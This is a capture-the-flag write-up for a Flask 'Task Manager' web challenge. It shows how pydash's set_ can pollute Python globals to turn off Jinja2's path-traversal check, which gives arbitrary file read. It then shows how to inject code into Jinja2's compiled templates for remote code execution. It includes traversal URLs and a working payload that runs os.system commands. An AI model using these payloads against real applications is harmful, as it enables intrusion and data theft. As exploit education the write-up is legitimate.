


# Web - Task Manager
Are you constantly procrastinating real work by spending too much time on ctfs? Me too! That's why I created this lit af task manager app to help us stay on top of our duties.

## The bug
With the first look at the challenge, I was initially intrigued by this part
```py
@app.route("/<path:path>")
def render_page(path):
    if not os.path.exists("templates/" + path):
        return "not found", 404
    return render_template(path)
```
By url-encoding '/', we might be able to do path traversal. So I tried getting `/..%2f..%2fetc%2fpasswd`:



From the error message in the logs, I could see that the path was indeed given to `render_template`, but it still didn't work. After looking into Jinja2 internals, I found that [this check](https://github.com/pallets/jinja/blob/36b601f/src/jinja2/loaders.py#L33) prevented it as we couldn't have `os.path.pardir` in our path.


After realizing that the initial finding wasn't possible, I actually looked at the functionality of the challenge. We can create little key-value notes. What's interesting is that instead of using a dictionary for this, we set it as attributes of a `TaskManager` object. Even more interestingly is that this is being done with a library called `pydash`.  
I started looking in the [`pydash` docs](https://pydash.readthedocs.io/en/latest/api.html#pydash.objects.set_) and found that by inserting `.` in the key, it would see it as individual attributes and actually traverse the path for us. With this, we can traverse the attribute tree to essentially set any value we want.

## Getting Arbitrary File Read
The first quirk we can use, is that every function object has a dictionary attribute called `__globals__`, which contains the global namespace of where the function was defined. This is normally used by Python when you access global variables from within a function. In this case, we'll use it to get access to all variables in `taskmanager.py`. To do this we can for example access `get.__globals__`.

From here we need to figure out what exactly we want to use this bug to set. Thinking back to the first finding, that I found, if `os.path.pardir` was somehow suddenly changed away from `..`, we would have essentially stripped out the path traversal check in jinja2. So now the goal was to somehow get to `os`.

I started by grepping for `import` in the `pydash` repo to find what it imported. It doesn't seem to import `os` directly, but perhaps it imports it indirectly through one of its other dependencies.  
After looking around, I found that the built-in `inspect` library depends on `os`. It's imported in `helpers.py` in `pydash`, so let's try it!  
Let's create a task called `get.__globals__.pydash.helpers.inspect.os.path.pardir` and setting its value to anything but `..`. Now for the path traversal:



Now we have arbitrary file read! Looking at the Dockerfile:
```docker
RUN echo "idek{[REDACTED]}" > /flag-$(head -c 16 /dev/urandom | xxd -p).txt
```
It looks like it won't be enough with just arbitrary file read, since the flag path is randomized. Or so I thought... Because further down:
```docker
COPY . .
```
The entire directory along with the Dockerfile with the flag contained in it is copied into the container 🤦
So now we can just get `/..%2fDockerfile` to get the flag!

## Getting RCE
After the CTF ended, the challenge author placed a bounty for being the first to find an RCE and solve the challenge without utilizing that silly unintended. So naturally I started looking at it again.

I knew that my only chance of getting RCE was to somehow inject code into the templates being generated. At first, I thought to look at injecting something into the cache. This path turned out to be a dud, as the only thing that is saved in the cache, is a Python function that generates the text from the template. We have to somehow inject into where it actually compiles that function.

I started by placing a debug `print(source)` in [Jinja's source](https://github.com/pallets/jinja/blob/36b601f/src/jinja2/environment.py#L704) right where it presumably compiles the template. This is what it returns when loading `home.html`:
```py
from jinja2.runtime import LoopContext, Macro, Markup, Namespace, TemplateNotFound, TemplateReference, TemplateRuntimeError, Undefined, escape, identity, internalcode, markup_join, missing, str_join
name = 'home.html'

def root(context, missing=missing, environment=environment):
    resolve = context.resolve_or_missing
    undefined = environment.undefined
    concat = environment.concat
    cond_expr_undefined = Undefined
    if 0: yield None
    pass
    yield '<!DOCTYPE html>\n<html data-theme="light">\n<head>\n\t<meta charset="utf-8">\n\t<meta name="viewport" content="width=device-width, initial-scale=1">\n\t<title>Task Manager</title>\n\t<link rel="stylesheet" href="/static/css/pico.classless.css">\n\t<link rel="stylesheet" href="/static/css/styles.css">\n\t<script src="/static/js/index.js"></script>\n</head>\n<body>\n\t<main>\n\t\t<section>\n\t\t\t<hgroup>\n\t\t\t\t<h1>Task Manager</h1>\n\t\t\t\t<h2>\n\t\t\t\t\t<a href=/create.html>Create a new task</a>\n\t\t\t\t</h2>\n\t\t\t</hgroup>\n\t\t\t<div id="ongoing-tasks">\n\t\t\t\t<article class="task-card shrink"></article>\n\t\t\t</div>\n\t\t</section>\n\t\t<section id="section-completed" hidden>\n\t\t\t<details>\n\t\t\t\t<summary><b>Completed</b></summary>\n\t\t\t\t<div id="completed-tasks">\n\t\t\t\t\t<article class="task-card shrink"></article>\n\t\t\t\t</div>\n\t\t\t</details>\n\t\t</section>\n\t</main>\n</body>\n</html>'

blocks = {}
debug_info = ''
```
Very interesting. So it defines this function `root` that essentially just returns a constant string. It would likely look a little more interesting if `home.html` contained any Jinja2 expressions.  
To see how this code is generated, we'll have to look into `compiler.py` in the [`generate` function](https://github.com/pallets/jinja/blob/36b601f/src/jinja2/compiler.py#L101). It basically just goes through the Jinja2 AST generated by the Loader class, and creates Python source code accordingly. The root of the tree is of type `nodes.Template`, so let's go to the [`visit_Template` method](https://github.com/pallets/jinja/blob/36b601f/src/jinja2/compiler.py#L826). Here I immediately see something very interesting:
```py
        from .runtime import exported, async_exported

        if self.environment.is_async:
            exported_names = sorted(exported + async_exported)
        else:
            exported_names = sorted(exported)

        self.writeline("from jinja2.runtime import " + ", ".join(exported_names))
```
It takes a list of strings from `jinja2.runtime` and places it directly into the source code! This should actually be quite simple to exploit. We'll just have to watch out for the fact that the list for some reason is being sorted, and we have to create a payload within 50 chars.

My final payload:
```py
set_("get.__globals__.pydash.helpers.inspect.sys.modules.jinja2.runtime.exported[0]", '*;import os;os.system("cp /flag* /tmp/flag") #')
```
Now we just have to render a template to execute the code, and then read the flag in `/..%2f..%2ftmp%2fflag`
